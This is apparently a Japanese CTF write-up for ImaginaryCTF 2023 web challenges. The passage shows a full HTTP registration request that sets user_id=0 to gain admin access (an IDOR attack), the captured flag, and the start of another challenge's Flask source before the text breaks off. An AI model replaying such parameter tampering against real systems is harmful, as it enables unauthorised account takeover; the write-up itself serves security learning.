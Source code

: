 # ImaginaryCTF 2023 Writeup

ImaginaryCTF 2023（<https://ctftime.org/event/2015>）に参加しました。  
土, 22 7月 2023, 04:00 JST — 月, 24 7月 2023, 04:00 JST

チーム0nePaddingで参加しましたが、用事があってちょっとしか参加できなかったです。  
後、簡単な問題しかやってません。

- [web/Idoriot](#idoriot)
- [web/perfect_picture](#perfect_picture)
- [web/blank](#blank)
- [web/idoriot-revenge](#idoriot-revenge)

- 競技後に解いた問題
  - [web/Login](#login)

## Idoriot

ユーザ登録時にidを送っているので、そのidをadminのidに変更するだけ。

```http
POST /register.php HTTP/1.1
Host: idoriot.chal.imaginaryctf.org
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://idoriot.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://idoriot.chal.imaginaryctf.org/register.php
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=898fee9264709a2d3903c10d2461d0ef
Connection: close

username=test&password=test&user_id=0
```

- フラグ

```text
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
```

## perfect_picture

- 問題ソースコード

```py
from flask import Flask, render_template, request
from PIL import Image
import exiftool
import random
import os

app = Flask(__name__)
app.debug = False

os.system("mkdir /dev/shm/uploads/")
app.config['UPLOAD_FOLDER'] = '/dev/shm/uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'png'}

def check(uploaded_image):
```